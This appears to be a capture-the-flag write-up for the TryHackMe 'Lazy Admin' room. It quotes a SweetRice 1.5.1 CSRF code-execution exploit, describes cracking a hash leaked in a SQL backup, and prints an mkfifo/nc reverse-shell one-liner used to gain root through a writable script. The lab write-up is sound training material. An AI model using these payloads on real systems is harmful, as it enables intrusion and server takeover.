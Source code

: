 ```yaml
---
title : Lazy Admin - TryHackMe WriteUp
author : Seif-Allah
description : Beginner level writeUp for the "Lazy Admin" room.
layout : post
category : CTF-WriteUp
---
```


### <mark style='background-color: white'>Introduction</mark>
'Lazy Admin' is an easy room made by [https://tryhackme.com/p/MrSeth6797](MrSeth6797), great for practice challenges. 
Let's get started! 

### <mark style='background-color: white'>Enumeration</mark>
Starting Nmap with the -A flag, here's the output : 
- - -
<pre>
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 61 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 49:7c:f7:41:10:43:73:da:2c:e6:38:95:86:f8:e0:f0 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCo0a0DBybd2oCUPGjhXN1BQrAhbKKJhN/PW2OCccDm6KB/+sH/2UWHy3kE1XDgWO2W3EEHVd6vf7SdrCt7sWhJSno/q1ICO6ZnHBCjyWcRMxojBvVtS4kOlzungcirIpPDxiDChZoy+ZdlC3hgnzS5ih/RstPbIy0uG7QI/K7wFzW7dqMlYw62CupjNHt/O16DlokjkzSdq9eyYwzef/CDRb5QnpkTX5iQcxyKiPzZVdX/W8pfP3VfLyd/cxBqvbtQcl3iT1n+QwL8+QArh01boMgWs6oIDxvPxvXoJ0Ts0pEQ2BFC9u7CgdvQz1p+VtuxdH6mu9YztRymXmXPKJfB
|   256 2f:d7:c4:4c:e8:1b:5a:90:44:df:c0:63:8c:72:ae:55 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBC8TzxsGQ1Xtyg+XwisNmDmdsHKumQYqiUbxqVd+E0E0TdRaeIkSGov/GKoXY00EX2izJSImiJtn0j988XBOTFE=
|   256 61:84:62:27:c6:c3:29:17:dd:27:45:9e:29:cb:90:5e (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAILe/TbqqjC/bQMfBM29kV2xApQbhUXLFwFJPU14Y9/Nm
80/tcp open  http    syn-ack ttl 61 Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
</pre>
- - - 
Examining the source code in web service running for some creds, found nothing. So I fire up gobuster using the *directory-list-2.3-medium.txt* wordlist and found a subdirectory called */content* : 
![/content](/assets/images/writeups/thm/lazy_admin/content.png "/content")
Found out that "Basic-CMS Sweetrice" is running here, firing up gobuster again and adding */content* to the URI and here's the result: 
![/gobustercontent](/assets/images/writeups/thm/lazy_admin/gobuster_content.png "/gobuster_content")
Did some research about this CMS and found that it the version 1.5.1 suffers from a code execution vulnerability via the use of a cross site request forgery flaw.
- - - 
<pre>
<!--
# Exploit Title: SweetRice 1.5.1 Arbitrary Code Execution
# Date: 30-11-2016
# Exploit Author: Ashiyane Digital Security Team
# Vendor Homepage: http://www.basic-cms.org/
# Software Link: http://www.basic-cms.org/attachment/sweetrice-1.5.1.zip
# Version: 1.5.1


# Description :

# In SweetRice CMS Panel In Adding Ads Section SweetRice Allow To Admin Add
PHP Codes In Ads File
# A CSRF Vulnerabilty In Adding Ads Section Allow To Attacker To Execute
PHP Codes On Server .
# In This Exploit I Just Added a echo '<h1> Hacked </h1>'; phpinfo(); 
Code You Can
Customize Exploit For Your Self .

# Exploit :
-->

<html>
<body onload="document.exploit.submit();">
<form action="http://localhost/sweetrice/as/?type=ad&mode=save"
method="POST" name="exploit">
<input type="hidden" name="adk" value="hacked"/
<textarea type="hidden" name="adv">
<?php
echo '<h1> Hacked </h1>';
phpinfo();?>
</textarea>
</form>
</body>
</html>
l
<!--
# After HTML File Executed You Can Access Page In
http://localhost/sweetrice/inc/ads/hacked.php
  -->

</pre>

- - -

So basically, this means that I can upload a php reverse shell and execute it but first we need credentials to login and then upload our file, so we need more enumeration.
I examine the other subdirectories and there's a specific file that got my attention : */content/inc/mysql\_backup/mysql\_backup/mysql\_bakup\_20191129023059-1.5.1.sql* ! 
Examining it carefully, I found a username and a password hash (*line 79*).
The password hash type is MD5, I used hydra to crack it using the *rockyou.txt* wordlist and then logged in the *Sweetrice* CMS, easy hein ? 

### <mark style='background-color: white'>USER.txt - Easy Peasy</mark>
To get the reverse shell, I simply started my listener (*nc -nlvp 1234*) and then copied the */usr/share/webshells/php/php-reverse-shell.php* file inside the ads section, save it and run it as mentionad in the script above. and boom! got the reverse shell ! 
- - - 
<pre>
listening on [any] 1234 ...
connect to [10.2.36.150] from (UNKNOWN) [10.10.217.36] 56240
Linux THM-Chal 4.15.0-70-generic #79~16.04.1-Ubuntu SMP Tue Nov 12 11:54:29 UTC 2019 i686 i686 i686 GNU/Linux
 18:01:47 up 5 min,  0 users,  load average: 1.37, 2.14, 1.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ 
</pre>
- - -
This time, I was lucky by opening the *user.txt* file without any privelage escalation, and yeah it works ! 
- - - 
<pre>
$ cd /home
$ ls
itguy
$ cd itguy
$ cat user.txt
THM{#####################}
</pre>
- - -
Now we need to find a way to get the root flag !
First of all, I ran *sudo -l* command : 
- - -

<pre>
$ sudo -l 
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
$ 
</pre>

- - -
Well, the user www-data can run the following command ? let's open the backup.pl file ! 
- - -
<pre>
$ cat /home/itguy/backup.pl
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
</pre>
- - -
hum ! can we edit the copy.sh file so it gets executed as root ? 
- - -
<pre>
$ ls -al /etc/copy.sh
-rw-r--rwx 1 root root 81 Nov 29  2019 /etc/copy.sh
</pre>
- - -
and yeah we can edit it, SUPER ! So the first idea tha came in my mind is to get an another reverse shell using this command : 
- - - 
<pre> 
$ echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <local-ip> 5554 >/tmp/f' >/etc/copy.sh
</pre>
- - - 
After setting up the listener and ran the command, I got the root shell ! now it's time the get root flag !! :) finally ! 
- - - 
<pre>
root@kali:~# nc -nlvp 5554
listening on [any] 5554 ...
connect to [10.2.36.150] from (UNKNOWN) [10.10.217.36] 51512
/bin/sh: 0: can't access tty; job control turned off
# cat /root/root.txt
</pre>
- - - 
Congrats, now you pissed off the lazy admin ! 
